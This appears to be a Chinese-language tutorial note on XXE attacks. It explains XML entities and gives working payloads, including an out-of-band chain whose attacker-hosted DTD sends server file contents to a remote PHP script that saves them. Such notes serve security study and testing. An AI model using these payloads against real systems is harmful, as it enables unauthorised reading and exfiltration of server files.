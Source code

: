 # XXE
*  [Entity](#entity)   
*  [Exploit](#exploit)    
*  [Reference](#reference)   
   
XML是一種描述資料的語言，跟html很像，但著重於傳輸資料，Case-sensitive。  
```xml
<?xml version=“1.0” encoding=“utf-8”>    // xml的文檔聲明
<!DOCTYPE a[                    // DTD 文檔類型定義
    <!ENTITY .....>
]>
<a>     // 文檔元素
....
</a>
```
其中DTD的觀念以及利用尤為重要  

## Entity
在DTD中事先宣告才可以使用實體  
Entity就像定義變數一樣  
1. 內部實體： ```<!ENTITY name "value">```  
```xml
<!DOCTYPE pwnch[
  <!ENTITY var "hi">
]>
<root>&var;</root>
```
2. 外部實體： ```<!ENTITY name SYSTEM "URL">```  
```xml
<!ENTITY var SYSTEM "url://.......txt">
<root>&var;</root>
```
新版本預設不解析外部實體  
3. 參數實體： ```<!ENTITY %name "value>"```  
```xml
// exp.dtd: <!ENTITY next SYSTEM "file://.txt">
<!DOCTYPE pwnch[
  <!ENTITY %var SYSTEM "http://...../exp.dtd">
  %var;
]>
<root>&next;</root>
```
引入外部實體時將```exp.dtd```裡的參數給帶了進來  
> 順道提一下，```file:///``` 前兩條是protocol，最後一條是指根目錄

## Exploit
1. 檢測是否有XXE漏洞  
隨便輸入個xml判斷有沒有解析  
2. 有沒有支持DTD引用外部實體
```
<!DOCTYPE ANY [
<!ENTITY % name SYSTEM "url">
%name;
]>
```
3. 有回顯 -> 簡單  
**php 與 XXE**  
```php
$xml = @new SimpleXMLElement($data);
echo $xml->node;
```
```SimpleXMLElement```會讓內容變成list的形式： ```[節點] => '內容'```  
最後一行的```$xml->node```則是取出名為**node**的節點  
因此exploit就會長成 ```<node>&var;</node>``` 這副德性  
4. 沒有回顯 -> 交給 OOB XXE  
那就讓server端主動傳資料給我們吧  
```
// 給server端吃的XML
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "你想要的東西">
<!ENTITY % remote SYSTEM "http://domain/xxe.dtd">
%remote;
%all;
%send;
]>
```
xxe.dtd  
```
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://domain/test.php?a=%file;'>">
```
test.php的內容  
```
file_put_contents("test.txt",$_GET['a']);
```
整個流程：server端吃到我給的xml後，解析remote時會將我server上的dtd給引入。  
```xxe.dtd```上有all和send的參數實體，send在被解析時，就會對我server上的test.php發出請求。  
```test.php```會把我想要的資源放入```test.txt```的檔案。剩下的自己看著辦！

## Reference
* Kaibro's slides
